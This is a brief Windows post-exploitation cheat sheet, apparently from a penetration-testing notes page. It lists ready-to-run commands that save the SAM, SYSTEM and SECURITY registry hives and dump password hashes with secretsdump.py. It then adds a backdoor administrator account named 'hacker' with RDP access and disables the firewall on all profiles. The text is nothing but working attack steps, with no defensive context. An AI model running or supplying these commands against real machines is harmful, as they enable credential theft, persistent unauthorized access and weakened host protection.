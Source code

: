 ### Dump hashes

reg save hklm\sam .\sam
reg save hklm\system .\system
reg save hklm\security .\security

secretsdump.py -sam sam -system system -security security LOCAL > hashes.txt

### Add RDP user

net user hacker hacker123 /add
net localgroup Administrators hacker /add
NET LOCALGROUP "Remote Desktop Users" hacker /ADD

### Turn off firewall 
NetSh Advfirewall set allprofiles state off
